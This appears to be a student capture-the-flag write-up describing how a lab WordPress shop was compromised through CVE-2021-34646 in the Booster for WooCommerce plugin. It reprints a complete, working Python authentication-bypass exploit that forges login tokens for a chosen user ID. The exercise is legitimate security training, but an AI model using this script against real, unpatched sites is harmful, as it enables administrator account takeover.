

# Trabalho realizado na semana #3

# CTF Walkthrough

## Introduction
- We began our journey by accessing the provided [link](http://ctf-fsi.fe.up.pt:5001/). 
- Then we started by searching for something in the website and then inspected the website code in order to find some libraries that were used, so than we could then search for CVEs about those libraries versions. 
- Eventually, we discovered the versions of the libraries that we were interested in on one of the [webpages](http://ctf-fsi.fe.up.pt:5001/product/wordpress-hosting/).

## Versions Found and User Enumeration
Here are the libraries versions we found:

- WordPress: 5.8.1
- WooCommerce Plugin: 5.7.1
- Booster for WooCommerce Plugin: 5.4.3

We also conducted user enumeration and identified two users:

- admin
- Orval Sanford


## Vulnerability Research
Our primary objective was to gain access to one of the user accounts. To achieve this, we initiated a search on the [CVE details website](https://www.cvedetails.com/) for some vulnerabilities associated with the libraries versions that we found. Some of the queries were simply like:
- WordPress: 5.8.1 Admin Acess
- WooCommerce Plugin: 5.7.1 Admin Acess
- WooCommerce Plugin 5.4.3 Admin Acess 

During our research, we found that one of the CVEs affecting our version was CVE-2021-34646, specifically related to the Booster for WooCommerce 5.4.3 library.

## Exploitation
We proceeded to search for an exploit related to CVE-2021-34646. We had relative ease in locating an exploit on the Exploit Database, which took advantage of this vulnerability. You can find the exploit here: [Exploit CVE-2021-34646](https://www.exploit-db.com/exploits/50299) which add the python code to gain admin acess to the pretended website.

```
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

After obtaining a Python script, we ran it. By providing the website link and a user ID as inputs, we obtained multiple links. Since the admin's user ID is often 1, we executed the script with this value. Clicking on the first link granted us login access as the administrator.



## Flag Retrieval
Following a successful login as the admin, we simply navigated to the indicated link [http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php](http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) and located the desired flag.

Our journey to obtain the flag was completed successfully.
